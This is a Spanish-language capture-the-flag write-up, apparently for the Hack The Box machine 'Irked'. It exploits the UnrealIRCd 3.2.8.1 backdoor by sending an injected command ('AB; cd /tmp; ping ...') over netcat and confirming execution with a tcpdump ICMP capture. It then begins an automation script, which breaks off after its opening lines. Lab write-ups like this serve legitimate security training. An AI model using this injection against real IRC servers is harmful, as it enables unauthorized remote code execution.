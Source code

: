 ```bash
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                               | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                    | windows/dos/27407.pl
-------------------------------------------------------------------------------------------- ---------------------------------
```
Vemos que si tenemos cositas ` linux/remote/13853.pl`
Intentamos hacer uso de exploit pero no resulta funcional. Asique procedemos a hecharle un ojo a lo que hace para intentar nosotros de forma manual
probar a repetirlo.

# Ganando Acceso atraves del IRC
```bash
# nc 10.10.10.117 6697                                                                                                                                        1 ⚙
:irked.htb NOTICE AUTH :*** Looking up your hostname...
```
Comando a injecctar en el IRC visto en exploit
```bash
AB; cd /tmp; ping -c 1 10.10.16.241
```
Tal que asi procedemos
```bash
# nc 10.10.10.117 6697
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
:irked.htb 451 AB; :You have not registered
AB; cd /tmp; ping -c 1 10.10.16.241                             Lo injectamos una vez
:irked.htb 451 AB; :You have not registered

AB; cd /tmp; ping -c 1 10.10.16.241                             Lo injectamos una 2veces
:irked.htb 451 AB; :You have not registered
AB; cd /tmp; ping -c 1 10.10.16.241                             Lo injectamos una 3veces
:irked.htb 451 AB; :You have not registered
```
Nos ponemos a la escucha para ver si recibimos una trace icmp, para ello usamos la herramienta tcpdump
```bash
# tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:03:11.212428 IP 10.10.10.117 > 10.10.16.241: ICMP echo request, id 1402, seq 1, length 64
12:03:11.212438 IP 10.10.16.241 > 10.10.10.117: ICMP echo reply, id 1402, seq 1, length 64
12:03:17.879102 IP 10.10.10.117 > 10.10.16.241: ICMP echo request, id 1404, seq 1, length 64
12:03:17.879110 IP 10.10.16.241 > 10.10.10.117: ICMP echo reply, id 1404, seq 1, length 64
```
Vemos que lo recibimos correctamente.
Por lo tanto ya que vemos que tenemos un RCE en las manos, procedo a realizarme un script para automatizarme la intrusion a la maquina victima
```bash
# cat AutoPwn_UnrealIRCd.sh                                                                                                                        1 ⚙
#!/bin/bash
# Se necesita poner una session de nc a la escucha por el puerto que indiquemos

function ctrl_c(){
        echo -e "\n[*] Saliendo ...\n"
        exit 1
}

# Ctrl + C 
trap ctrl_c INT

```